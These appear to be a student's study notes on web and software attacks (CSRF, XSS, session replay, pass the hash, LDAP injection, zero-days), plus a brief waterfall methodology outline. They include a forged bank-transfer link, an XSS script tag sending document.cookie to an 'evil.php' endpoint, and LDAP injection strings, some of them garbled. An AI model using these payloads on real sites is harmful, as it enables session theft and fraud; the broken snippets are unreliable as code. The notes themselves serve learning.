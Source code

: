 # Buffer overflow
- Address space randomization minimizes the changes that it can occur

# Null pointer dereference attack
- Could cause error handling conditions to be overwrote
- Could cause the very first thing that gets executed in memory to be overwrote

# Cross site request forgery (CSRF)
- <a href=”[https://www.w3schools.com](https://www.w3schools.com)”> Visit W3Schools </a>
- <a href=”[https://www.mybank.com?action=transfer&to=1789433&amount=1000$”](https://www.mybank.com?action=transfer&to=1789433&amount=1000$%E2%80%9D)> Funny_Image.jpg </a>
- The victim must have been logged in recently and clicked the “keep me logged in” button which gives the user a session cookie.
- Protections:
    - No keep me logged in button
    - Can this be done in one click?
- Steps
    - Perpetrator forges a request for a fund transfer to a website
    - Perpetrator embeds the request into a hyperlink and sends it to visitors who may be logged into the site
    - A visitor clicks on the link, inadvertently sending the request to the website
    - Website validates request and transfers funds from the visitor’s account to the perpetrator

# Session replay attack
- Not a specific attack, but a class of attacks where an attacker is able to get credentials and play it back to the server at a different time and get the same results
- For example if Logan is talking to Grace and sends Grace a password and an attacker is able to get the packet, can the attacker pass the packet to Grace at a different time.
- Timestamps prevent this, if the timestamp was from the past it cannot be reused.

# Cross site scripting
- Say you have craigslist or a chatroom, the site needs to allow you to upload content, you can not only post text but also formatted text. Say you are commenting on an article or posting a used car add. Maybe I am not just going to bold the text but also put in a <SCRIPT> tag. You have created a javascript and embedded it in the uploaded data. </SCRIPT>
- Possible when a user can upload HTML content (with scripts).
- Utilizes the trust a victim has for a 3rd party website.
- Could be a session replay attack if you steal some ones cookie OR you can run any code that is something that the website allows you to do.
- <SCRIPT type=”text/javascript” varaddr=’../evil.php?cakemonster=’ + escape(document.cookie);> </SCRIPT>
- Steps
    - Hacker injects trusted website with malicious script
    - Victim visits trusted website and triggers malicious script
    - Victim’s browser executes malicious script and unknowingly forwards desired information (session token, cookie, etc.) to hacker.

# Pass the hash (example of session replay)
-   Has a couple of assumptions:
    -   An account is compromised, someone else has hacked one computer in an organization
    -   Victim has admin rights on the local machine
    -   Another victim has logged onto the machine previously
-   Attack
    -   Hacker dumps the local security authority memory (keeps a copy of the username and hashed password).
    -   Hacker retrieves the username and hash of other users that have logged on fairly previously
    -   Hacker can pass the hash to validate themselves

# LDAP injection attack
-   Looking up users
    -   [](http://www.mycorp.com/people_search.asp?name=Sam)[http://www.mycorp.com/people_search.asp?name=Sam](http://www.mycorp.com/people_search.asp?name=Sam))(zone=public)(zone=public))
    -   [](http://www.mycorp.com/people_search.asp?name=Sam)[http://www.mycorp.com/people_search.asp?name=Sam](http://www.mycorp.com/people_search.asp?name=Sam))(zone=*)(zone=public))
-   Normal code statement
    -   find(”(&cn=” + username + “)(userPassword=” + pass +”))”)
        -   This statement looks up a person whose username is this and password is this?
    -   find(”(&cn=” + admin(&))+ “)(userPassword=” + Whatever!+”))”)
        -   The and means true, in LDAP the second statement is ignored, only the first is used
    -   find(”(&cn=” + admin(&))+ “)(userPassword=” + Whatever!+”))”)
        -   The blue does nothing
-   Prevention is the same as SQL injections
    -   Parameterized queries
    -   Character escaping

# Header Manipulation Attack
- Collect of Exploits
- We craft a get request with non-standard parameters to perform a variety of functions
- Two requests (second request is smuggled in with the first)
- Tricking the server to execute a script
- Poisoning the DNS cache

# Web Browsing Threats
- "Because that's where the money is"
- Cookies
- Autofill
- Third-Party Plugins
- Flash
- JavaScript

# Client-Side Attacks
- When the Server is malicious
- Watering Hole Attacks
- Driver Attack Example

# Zero-Day Attack
- Previously unknown attacks
- Hard to defend against
- Developer process to eliminate
	- Analyze
	- Test
	- Report
	- Mitigate

# The Waterfall Methodology
- System / Software Requirements - Requirement Document
	- Analysis - Model
		- Design - Software Architecture
			- Coding - Code
				- Testing - Test Report
					- Operations - Working System